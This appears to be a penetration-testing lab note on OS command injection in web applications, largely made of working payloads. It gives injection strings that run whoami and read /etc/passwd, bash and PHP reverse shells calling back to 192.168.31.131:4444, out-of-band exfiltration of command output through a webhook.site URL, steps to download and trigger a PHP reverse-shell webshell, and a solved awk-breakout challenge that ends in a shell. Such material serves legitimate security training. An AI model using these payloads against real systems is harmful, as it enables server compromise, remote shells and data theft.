



# Web App - Command Injection

> - [PayloadsAllTheThings - Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
> - [Command injection | AppSecExplained](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/command-injection)

➡️ **OS Command Injection**, or shell injection, occurs when a vulnerable application passes unvalidated user input to the system shell, allowing attackers to execute arbitrary OS commands on the server hosting the web app.

---

## Command Injection - Basics

```bash
| whoami #
& whoami& asd
; whoami; asd
# Result: www-data

; cat /etc/passwd; asd
& ls -lah& asd
# Check result in Source Code for better reading
```



- Pop a shell - check [Reverse Shell Cheat Sheet - Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

```bash
; which bash; asd
# Result: /bin/bash

; /bin/bash -i >& /dev/tcp/192.168.31.131/4444 0>&1; asd
# does NOT work

; which python; asd
; which python3; asd

; which php; asd
# Result: /usr/local/bin/php 

; php -r '$sock=fsockopen("192.168.31.131",4444);exec("/bin/sh -i <&3 >&3 2>&3");'; asd
```



---

## Command Injection - Blind/Out-of-band

```bash
https://tcm-sec.com # Website OK
https://tcm-sec.com/idontexist # Website not found

https://tcm-sec.com/; whoami; asd # Website OK
```

- Open [https://webhook.site/](https://webhook.site/)
  - **Out of band command injection** - captured from a different place

```bash
https://webhook.site/4a14cea0-1e8c-4707-a596-cf1939bd4a76?`whoami`

# Result
# https://webhook.site/4a14cea0-1e8c-4707-a596-cf1939bd4a76?www-data
```

```bash
# Test a wget
python3 -m http.server 8888

# Command injection string
https://tcm-sec.com \n wget 192.168.31.131:8888/test
# the request worked
```

- Upload a shell and trigger it

```bash
cd $HOME/tcm/peh/webapp
cp /usr/share/webshells/laudanum/php/php-reverse-shell.php rev.php

# Update $ip and $port
nano rev.php
# 192.168.31.131, port 4444
python3 -m http.server 8888

# Command injection
https://tcm-sec.com \n wget 192.168.31.131:8888/rev.php
https://tcm-sec.com && curl http://192.168.31.131:8888/rev.php > $HOME/peh/labs/rev.php
# Those injections may not work, but this is the idea

# Start a listener and navigate to http://localhost/rev.php
# Got reverse shell
```

---

## Command Injection - Challenge

- The app executes this

```bash
# Executed with Registration = TEST, Position X = 123 and PositionY = 456
awk 'BEGIN {print sqrt(((-123)^2) + ((-456)^2))}'

# Try injection on position Y
456)^2))}';whoami;
456)^2))}';whoami;#
# Result: 472.298 www-data - Worked

# Pop a shell via a php payload

456)^2))}';php -r '$sock=fsockopen("192.168.31.131",4444);exec("/bin/sh -i <&3 >&3 2>&3");';#

# Reverse shell received
```



---

